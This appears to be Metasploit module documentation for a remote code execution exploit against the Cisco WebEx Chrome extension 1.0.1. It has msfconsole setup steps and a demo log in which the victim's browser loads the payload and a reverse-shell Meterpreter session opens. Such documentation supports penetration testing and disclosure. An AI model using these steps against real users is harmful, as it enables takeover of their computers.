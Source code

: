 Cisco WebEx is a suite of applications for online meeting organization and video conferencing.
Included in this suite are extensions for popular web browsers which ease use and provide supplemental
features.

Version 1.0.1 of the WebEx extension for Google Chrome contains a vulnerability which allows an
attacker to execute arbitrary commands on a target, which can lead to arbitrary remote code execution.


## Vulnerable Application

Cisco WebEx Chrome Extension 1.0.1 is known to be affected.

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/misc/cisco_webex_ext```
3. Do: ```set SRVHOST [IP ADDRESS]```
4. Do: ```set SRVPORT [PAYLOAD NAME]```
5. Do: ```set URIPATH [ARBITRARY URI]```
6. Do: ```Choose a payload and set any specific options```
6. Do: ```run```, after a target browses to the generated URL, you should receive a session like the following:

## Demo

```
msf > use exploits/windows/misc/cisco_webex_ext
msf exploit(cisco_webex_ext) > set srvhost 10.6.0.151
srvhost => 10.6.0.151
msf exploit(cisco_webex_ext) > set srvport 4567
srvport => 4567
msf exploit(cisco_webex_ext) > set uripath not_a_very_good_meeting
uripath => not_a_very_good_meeting
msf exploit(cisco_webex_ext) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.6.255.229:4444
[*] Using URL: https://10.6.0.151:4567/not_a_very_good_meeting
[*] Server started.
msf exploit(cisco_webex_ext) > [*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/cwcsf-nativemsg-iframe-43c85c0d-d633-af5e-c056-32dc7efc570b.html
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Sending exploit html ...
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/qt3iFe8N
[*] 10.6.0.151       cisco_webex_ext - From:
[*] 10.6.0.151       cisco_webex_ext - Sending payload ...
[*] Sending stage (957487 bytes) to 10.6.255.229
[*] Meterpreter session 1 opened (10.6.255.229:4444 -> 10.6.255.229:57472) at 2017-01-26 13:27:28 -0600

msf exploit(cisco_webex_ext) >
```

